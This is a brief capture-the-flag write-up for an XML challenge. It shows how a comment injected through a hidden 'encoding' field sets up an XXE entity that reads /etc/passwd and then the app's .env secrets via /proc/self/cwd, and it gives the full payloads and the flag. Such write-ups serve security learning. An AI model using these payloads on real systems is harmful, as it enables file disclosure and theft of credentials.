 # XeXe

## Write-up (brief)

- There is a hidden HTML input : `encoding`

- **Approach :** Inject comment in `encoding` and XXE payload in `name`

- Trying the following payload in `encoding` : `UTF-8"?><!--` -> `Error! Encoding too long`

- After some trial, we can notice we can remove `-` from `UTF-8` and it still works : `UTF8"?><!--`

- Payload in name : `--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root><name>&xxe;`

- Full payload :

```xml
<?xml version="1.0" encoding="UTF8"?><!--"?>
<root>
	<name>--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root><name>&xxe;</name>
</root>
```

- Hint in `/etc/passwd` : `# You're going the right way, but you need to find a way to access the app files without knowing their path :)`

- Challenge description indicates that the flag is in the `.env` file of the application

- We can access the file from `/proc/self/cwd/.env`

- Final payload :

```xml
<?xml version="1.0" encoding="UTF8"?><!--"?>
<root>
	<name>--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///proc/self/cwd/.env"> ]><root><name>&xxe;</name>
</root>
```

## Flag

`shellmates{xx3_XX3_xXE_Xx3_xX3}`
